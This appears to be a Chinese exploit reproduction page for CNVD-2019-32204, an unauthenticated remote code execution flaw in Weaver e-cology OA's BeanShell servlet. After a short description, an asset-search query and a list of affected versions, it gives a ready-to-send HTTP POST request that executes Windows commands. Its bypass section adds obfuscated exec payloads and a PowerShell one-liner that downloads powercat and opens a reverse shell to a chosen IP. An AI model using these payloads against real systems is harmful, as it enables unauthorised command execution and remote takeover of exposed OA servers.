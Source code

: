 # 泛微OA E-Cology BshServlet 远程代码执行漏洞 CNVD-2019-32204

## 漏洞描述

2019年9月17日泛微OA官方更新了一个远程代码执行漏洞补丁, 泛微e-cology OA系统的Java Beanshell接口可被未授权访问, 攻击者调用该Beanshell接口, 可构造特定的HTTP请求绕过泛微本身一些安全限制从而达成远程命令执行, 漏洞等级严重.

## 网络测绘

<a-checkbox checked>app=“泛微-协同办公OA”</a-checkbox></br>

## 影响版本

<a-checkbox checked>E-cology 7.0</a-checkbox></br>
<a-checkbox checked>E-cology 8.0</a-checkbox></br>
<a-checkbox checked>E-cology 8.1</a-checkbox></br>
<a-checkbox checked>E-cology 9.0</a-checkbox></br>

## 漏洞复现

直接在网站根目录后加入组件访问路径 `/weaver/bsh.servlet.BshServlet/`，如下图在victim上执行了命令“whoami”

![img](/assets/PeiQi-Wiki/img/fanwei-6.png)



请求包为

```shell
POST /weaver/bsh.servlet.BshServlet HTTP/1.1
Host: xxxxxxxx:8088
Accept: */*
Accept-Language: en
User-Agent: Mozilla/5.0 (compatible; MSIE 9.0; Windows NT 6.1; Win64; x64; Trident/5.0)
Connection: close
Content-Length: 98
Content-Type: application/x-www-form-urlencoded

bsh.script=ex\u0065c("cmd /c dir");&bsh.servlet.captureOutErr=true&bsh.servlet.output=raw
```

关于绕过

```shell
eval%00("ex"%2b"ec(\"whoami\")");
ex\u0065c("cmd /c dir");
IEX(New-Object System.Net.Webclient).DownloadString('https://raw.githubusercontent.com/besimorhino/powercat/master/powercat.ps1');powercat -c ip -p 6666 -e cmd
```



## 